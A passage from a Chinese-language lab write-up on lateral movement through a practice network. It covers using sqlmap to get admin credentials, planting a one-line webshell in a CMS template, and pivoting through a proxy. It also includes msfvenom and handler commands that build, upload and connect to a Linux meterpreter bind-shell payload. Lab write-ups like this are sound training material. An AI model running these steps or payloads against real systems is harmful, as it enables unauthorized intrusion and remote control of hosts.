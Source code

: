 ![image-20210826113009935](https://husins.oss-cn-beijing.aliyuncs.com/image-20210826113009935.png)

用与第一台靶机相同的 方法，渗透第二台主机，其他服务都没有办法下手，只能在`80`端口入手

![image-20210908161502423](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908161502423.png)

![image-20210908164349790](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908164349790.png)

使用`sqlmap`获取数据库信息，可以得到后台登录的账号密码`admin/123qwe`

通过百度获取到后台登录地址`/index.php?r=admini/public/login`,登录后台

![image-20210908164710416](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908164710416.png)

在模板处添加一句话木马

![image-20210908165016290](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908165016290.png)

使用`proxifiter`将流量代理到`10.203.87.119:1080`端口使用菜刀，连接webshell。

Target2的情况和Target1差不多，双网卡还存在一个33网段的ip，进行存活主机探测

![image-20210908171107919](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908171107919.png)

![image-20210908171244637](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908171244637.png)

发现存活`192.168.33.33`,再次进行横向 渗透。

## 0x7拿下Target3

使用`uname -a`查询靶机版本信息：

![image-20210908172111200](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908172111200.png)

搜索可用的正向meterperter木马

`msfvenom --list payloads | grep "linux/x64"`

![image-20210908172004889](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908172004889.png)



生成正向代理的`meterperter`木马`msfvenom -p linux/x64/meterpreter/bind_tcp lport=5001 -f elf -o bind5001.elf`,并上传到靶机中，赋予777权限：

![image-20210908172702670](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908172702670.png)

在目标机运行木马文件

![image-20210908173223861](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908173223861.png)

在`msf`中正向连接这个机器

`handler -p linux/x64/meterpreter/bind_tcp -H 192.168.22.129 -P 5001`

![image-20210908173421415](https://husins.oss-cn-beijing.aliyuncs.com/image-20210908173421415.png)
